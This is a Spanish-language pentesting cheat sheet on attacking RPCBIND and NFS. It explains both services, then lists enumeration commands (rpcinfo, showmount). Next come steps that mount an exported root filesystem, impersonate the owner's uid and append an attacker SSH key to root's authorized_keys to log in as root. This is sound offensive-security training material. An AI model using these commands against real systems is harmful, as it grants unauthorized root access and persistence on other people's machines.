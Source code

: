 ```yaml
---
description: >-
  Explotar los servicios RPCBIND y NFS en conjunto para obtener acceso a
  archivos compartidos.
---
```


# 111, 2049 - RPCBIND Y NFS

## ¿**QUE ES NFS?**

Network File System o NFS por sus siglas en inglés, es un protocolo para un sistema de archivos distribuido, el cual permite a un usuario en una computadora cliente el acceso hacia archivos a través de la red como si accediera a un almacenamiento local.

**Puerto por defecto: 2049**

## **¿QUE ES RPCBIND?**

&#x20;   RPC o Remote Procedure Call es una técnica para construir sistema distribuidos, y aplicaciones cliente / servidor. Básicamente permite a un programa sobre una máquina llamar a una subrutina sobre otra máquina. RPC no es un protocolo de transporte; en lugar de ello, es un método para utilizar características existentes de una comunicación de una manera transparente. En servidores Unix o similares se debe ser conscientes de la aplicaciones que utilizan RPC.

**Puerto por defecto: 111**

## **PoC**

**`rpcinfo -p ip`**\
La opción “-p” evalúa al portmapper del host, e imprime una lista de todos los programas RPC registrados.

**`showmount -e ip`**\
Se utiliza el comando “showmount” para mostrar información de montaje sobre un servidor NFS. La opción “-e” muestra la lista de exportación del servidor NFS.

Si la“/” raíz del sistema de archivos del objetivo de evaluación está siendo exportado, entonces es factible montar localmente este sistema de archivos. Con el comando "mount" se utiliza la opción “-t” para indicar el tipo del sistema de archivos a montar. La opción “-o” define otras opciones, para este presente ejemplo el uso de la opción “nolock” permite a las aplicaciones bloquear archivos, pero tales bloqueos proporcionan exclusión únicamente contra otras aplicaciones ejecutándose en el mismo cliente

**`mount -t nfs 192.168.0.X:/ FSremoto/ -o nolock`**

La version 4 de nfs tiene un sistema de seguridad que impide ver desde otro host el uid del usuario propietario. En ocasiones se pueden utilizar varias versiones de nfs, para usar una anterior utilizamos -o vers=2.

**`mount -t nfs -o vers=2 ip:ruta`**

Al saber el uid del usuario propietario, si creamos uno con el mismo uid podemos entrar en la carpeta compartida sin problemas.

Una vez en esta carpeta compartida y si el host tiene el puerto 22 abierto (ssh) podemos generar un par de claves rsa (sabemos cuales acepta en el nmap) con ssh-keygen y despues incluimos la clave publica en el archivo ./.ssh/authorized\_keys

**`ssh-keygen`**

**`cat /tmp/id_rsa.pub >> FSremoto/root/.ssh/authorized_keys`**

**`ssh -i /tmp/id_rsa root@192.168.0.X ssh user@ip`**
